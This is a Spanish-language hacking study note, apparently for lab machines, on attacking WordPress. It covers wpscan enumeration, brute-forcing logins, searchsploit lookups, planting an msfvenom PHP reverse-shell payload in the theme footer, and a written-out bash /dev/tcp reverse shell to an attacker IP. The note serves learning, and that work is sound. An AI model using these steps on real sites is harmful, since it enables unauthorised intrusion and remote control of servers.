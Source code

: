 **Comenzamos con la explotación y enumeración de WordPress, donde veremos las rutas más importantes que debemos acceder para comprobar la existencia de vulnerabilidades, así como acceder al panel de login de una web hecha en WordPress.**

Con el nombre de dominio, tendremos que editar el fichero `/etc/hosts` y añadirlo junto con la IP de la maquina victima en caso de que no nos cargue bien la maquina

En WordPress hay una ruta muy típica llamada `wp-login` si no carga añadir .php `wp-login.php` y accederemos al panel de login de WordPress.


### ENUMERACION USUARIOS Y PLUGINS

Deberemos usar una herramienta llamada [[WPSCAN]] 
`wpscan --url http://<Ip_Victima>/blog --enumerate u,vp`
*Este comando nos permite hacer una búsqueda exhaustiva de usuarios y plugins, muy importante no añadir a la ruta el `/wp-loging.php` *


### FUERZA BRUTA

Utilizaremos [[WPSCAN]]
`wpscan -U <User_Encontrado> --url http://<Ip_Victima>/<Directorio> -P /usr/share/wordlists/rockyou.txt` 


### EXPLOTACION PLUGINS

Después de la enumeración con [[WPSCAN]] con los plugins encontrados para ver si son vulnerables usaremos [[SEARCHSPLOIT]] para buscarlo
`searchsploit wordpress <Plugin_name>`

Una vez hemos visto un exploit que nos interese usaremos [[SEARCHSPLOIT]] para importarlo a local
`searchsploit -m <Plugin_Id>`

Cuando ya lo tenemos solo habría que explotarlo siguiendo los pasos dependiendo de cada tipo de exploit


### INYECCION CODIGO

En caso de que podamos subir archivos lo podríamos hacer con [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]] pero en caso de no poder hacerlo tendríamos que editar uno ya existente.
1. ¿Hay un apartado que ponga file upload?
	Si lo hay usaremos [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]] 

2. No hay este apartado
	1. Ir al apartado Apperance 
	2. Theme Editor
	3. Buscamos la plantilla Theme Footer
	4. Añadiremos el contenido de un Payload que creemos con [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]]
	5. Crear el Payload con [[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]] para poder copiar su contenido
		`msfvenom -p php/reverse_php LHOST=10.9.3.213 LPORT=444 raw > pawned.php`
	6. Copiamos el contenido del Payload creado en el WordPress 
	7. Damos a Update File
	8. Nos ponemos a escuchar en [[NETCAT]] `nc -lvnp 444 `
	9. Vamos a la ruta principal del WordPress 
	10. Y obtendremos la conexión
	11. Saneamos la Shell con los siguientes pasos
	12. Preparamos en un navegador la web de `www.revshells.com` con el puerto de escucha 445
	13. En otra ventana de terminal nos ponemos en escucha con [[NETCAT]] en otro puerto `nc -lvnp 445`
	14. En el [[NETCAT]] que tenemos en contacto con WordPress ponemos `bash -c "sh -i >& /dev/tcp/10.9.3.213/445 0>&1"`
	15. Y en el [[NETCAT]] que tenemos escuchando en ese puerto tendremos una nueva shell
